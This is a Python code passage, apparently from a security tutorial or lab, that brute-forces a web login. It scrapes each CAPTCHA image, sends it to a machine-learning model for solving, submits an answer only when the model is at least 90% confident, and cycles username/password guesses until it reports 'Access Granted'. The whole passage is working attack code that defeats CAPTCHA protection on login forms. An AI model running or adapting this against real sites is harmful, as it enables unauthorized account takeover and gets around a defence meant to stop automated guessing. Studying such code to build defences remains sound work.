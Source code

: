 ```python

    #First, we connect to the webapp so we can get the CAPTCHA. We will use a session so cookies are taken care of for us
    sess = requests.session()
    r = sess.get(website_url)
    
    #Use soup to parse the HTML and extract the CAPTCHA image
    soup = BeautifulSoup(r.content, 'html.parser')
    img = soup.find("img")    
    encoded_image = img['src'].split(" ")[1]
    
    #Build the JSON request to send to the CAPTCHA predictor
    model_data = {
        'signature_name' : 'serving_default',
        'inputs' : {'input' : {'b64' : encoded_image} }
        }
        
    #Send the CAPTCHA prediction request and load the response
    r = requests.post(model_url, json=model_data)
    prediction = r.json()
    probability = prediction["outputs"]["probability"]
    answer = prediction["outputs"]["output"]

    #We can increase our guessing accuracy by only submitting the answer if we are more than 90% sure
    if (probability < 0.90):
        #If lower than 90%, no submission of CAPTCHA
        print ("[-] Prediction probability too low, not submitting CAPTCHA")
        continue

    #Otherwise, we are good to go with our brute forcer
    #Build the POST data for our brute force attempt
    website_data = {
            'username' : username,
            'password' : password,
            'captcha' : answer,
            'submit' : "Submit+Query"
            }

    #Submit our brute force attack
    r = sess.post(website_url, data=website_data)

    #Read the response and interpret the results of the brute force attempt
    response = r.text

    #If the response tells us that we submitted the wrong CAPTCHA, we have to try again with this password
    if ("Incorrect CAPTCHA value supplied" in response):
        print ("[-] Incorrect CAPTCHA value was supplied. We will resubmit this password")
        continue
    #If the response tells us that we submitted the wrong password, we can try with the next password
    elif ("Incorrect Username or Password" in response):
        print ("[-] Invalid credential pair -- Username: " + username + " Password: " + password)
        count += 1
    #Otherwise, we have found the correct password!
    else:
        print ("[+] Access Granted!! -- Username: " + username + " Password: " + password)
        access_granted = True
```
